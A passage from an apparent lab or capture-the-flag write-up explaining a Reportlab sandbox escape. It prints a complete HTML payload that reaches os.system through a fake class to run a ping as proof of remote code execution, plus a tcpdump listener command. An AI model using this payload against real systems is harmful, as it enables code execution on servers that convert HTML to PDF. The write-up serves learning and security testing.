 Summary (Super Simple)

| Step | What We Did             | Why                                          |
|------|-------------------------|----------------------------------------------|
| 1    | Recover original type() | Get real Python powers back                  |
| 2    | Build fake class Word   | Trick sandbox’s safety checks                |
| 3    | Get to globals()        | Find dangerous functions like os.system()    |
| 4    | One-liner trick         | Run everything at once, bypassing line limit |


#### Step 5: Wrap it in html tags: {#step-5-wrap-it-in-html-tags}

For this to work we need to wrap the payload in `html` tags like below. This is because there a specific library is called when processing `html` which will in turn process our payload. Looking at the write up we can see the below:

> A lot of apps and libraries use the Reportlab library for example xhtml2pdf utility function is vulnerable and can suffer from code execution while transforming malicious HTML to pdf

I have modified the initial payload to be a ping command as this should be accessible by most OS's and enable us to prove RCE.

```html
<para>
    <font color="[ [ getattr(pow,Word('__globals__'))['os'].system('ping 10.10.14.20') for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'">
    exploit
    </font>
</para>
```

We need to start a listener using `tcpdump` to listen out for the ICMP requests that we get

```shell
sudo tcpdump -i tun0 icmp
```


### Getting RCE On The Target: {#getting-rce-on-the-target}


#### Finding our injection point for RCE: {#finding-our-injection-point-for-rce}

Now we have a payload and a listener setup we need to actually find somewhere to inject this on the web-app. To save you all heartache, here are the things I tried before finding a valid injection point:


##### What didn't work: {#what-didn-t-work}
